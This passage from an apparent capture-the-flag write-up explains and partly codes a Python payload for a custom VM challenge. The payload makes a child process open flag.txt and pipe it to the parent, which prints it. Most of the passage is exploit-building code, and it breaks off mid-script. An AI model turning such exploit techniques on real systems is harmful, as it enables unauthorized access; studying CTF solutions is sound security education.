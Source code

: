 Additionally the child does not break out of it's loop, so we need to modify it's loop from `child_loop`/`0x40b` to run the code we want on the client, at the same time this same code is added to the client, so it's one big payload used for both the parent and the child which needs to:

1. Get the flag on the child
2. Send the flag from the child to the parent
3. Receive the flag on the parent
4. Send teh flag to stdout

```py
def full_payload():
    # Starting at 8 bytes in because that's the return address
    payload = b'A'*8
    
    ################
    #### PARENT CODE
    ################

    ###
    # read( child, &mem[0], 100 )
    payload += mov_imm(8, 0) # SYS_read
    
    # fd = child pipe
    payload += mov_imm(0, 0x2018)
    payload += mov_from_mem(9, 0)
    
    # buffer = &mem[0x0000]
    payload += mov_imm(10, 0x4060) # &mem[0x0000]
    payload += add(10, 3) # + exe base
    
    # count
    payload += mov_imm(11, 100)

    payload += syscall(payload)

    ##
    # puts( &mem[0] )
    payload += mov_imm(8, 1) # SYS_write
    payload += mov_imm(9, 1) # stdout
    
    # buffer = &mem[0x0000]
    payload += mov_imm(10, 0x4060) # &mem[0x0000]
    payload += add(10, 3) # + exe base

    # count
    payload += mov_imm(11, 100)
    
    payload += syscall(payload)
    
    payload += halt()
    
    ################
    #### CHILD CODE
    ################

    child_start = len(payload)
    
    ###
    # open('flag.txt', 0, 0 )
     
    # store 'flag.txt\x00' in mem[0]
    payload += mov_imm(0, u64(b'flag.txt'))
    payload += mov_imm(1, 100)
    payload += mov_to_mem(1, 0)
    payload += mov_imm(0, 100)
```